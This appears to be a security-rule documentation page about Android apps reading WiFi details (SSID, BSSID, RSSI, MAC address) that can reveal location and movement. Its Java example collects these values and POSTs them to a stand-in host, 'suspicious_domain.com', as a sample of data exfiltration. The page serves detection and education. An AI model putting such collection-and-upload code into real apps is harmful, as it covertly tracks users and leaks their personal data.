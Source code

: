 Android APK WiFi API allows access to Personal Identifiable Information (PII) such as network names and access points usage history, potentially leading to private data inference.

Applications using the `ACCESS_WIFI_STATE` permission and calling APIs like `getConnectionInfo` can access sensitive information about WiFi access points (such as `BSSID`, `SSID`, and `RSSI`) and potentially infer:

* MAC Address which is a unique device identifier
* Geolocation data by using surrounding WiFi access points
* User movement history and social links inference relying on repeating patterns in WiFi access point usage

### Examples

=== "Java"

 ```java
 
    import android.content.Context;
    import android.net.wifi.WifiInfo;
    import android.net.wifi.WifiManager;
    import java.net.HttpURLConnection;
    import java.net.URL;
    import java.io.OutputStream;
    import java.nio.charset.StandardCharsets;
    
    public class WifiInfoRetriever {
    
        private Context context;
    
        public WifiInfoRetriever(Context context) {
            this.context = context;
        }
    
        public void retrieveWifiInfo() {
            WifiManager wifiManager = (WifiManager) context.getSystemService(Context.WIFI_SERVICE);
            
            if (wifiManager.isWifiEnabled()) {
                WifiInfo wifiInfo = wifiManager.getConnectionInfo();
                
                String ssid = wifiInfo.getSSID();
                String bssid = wifiInfo.getBSSID();
                int rssi = wifiInfo.getRssi();
                String macAddress = wifiInfo.getMacAddress();
                
                // Construct JSON with data
                String jsonInputString = String.format("{\"ssid\":\"%s\", \"bssid\":\"%s\", \"rssi\":%d, \"macAddress\":\"%s\"}",
                ssid, bssid, rssi, macAddress);
                
                try {
                    // Endpoint URL
                    URL url = new URL("http://suspicious_domain.com/api/networks");
                    HttpURLConnection connection = (HttpURLConnection) url.openConnection();
                    
                    // Connection setup
                    connection.setDoOutput(true);
                    connection.setRequestMethod("POST");
                    connection.setRequestProperty("Content-Type", "application/json");
                    
                    try (OutputStream os = connection.getOutputStream()) {
                        byte[] input = jsonInputString.getBytes(StandardCharsets.UTF_8);
                        os.write(input, 0, input.length);
                    }
                    // Additional analysis could be performed when the data reaches the endpoint
                    // such as inferring location or movement patterns of users             
                    connection.disconnect();
                } catch (Exception e) {
                    e.printStackTrace():
                }
            } else {
                System.out.println("WiFi is not enabled");
            }
        }
    }
 ```

